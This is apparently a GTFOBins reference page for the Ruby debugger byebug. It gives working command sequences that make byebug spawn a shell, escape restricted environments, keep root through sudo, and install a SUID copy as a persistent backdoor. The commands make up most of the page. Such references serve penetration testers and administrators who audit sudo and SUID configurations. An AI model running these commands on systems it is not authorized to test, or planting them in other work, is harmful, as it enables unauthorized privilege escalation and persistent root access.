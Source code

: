 # GTFOBin: byebug

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo 'system("/bin/sh")' > $TF
byebug $TF
continue
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
echo 'system("/bin/sh")' > $TF
sudo byebug $TF
continue
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which byebug) .

TF=$(mktemp)
echo 'system("/bin/sh")' > $TF
./byebug $TF
continue
```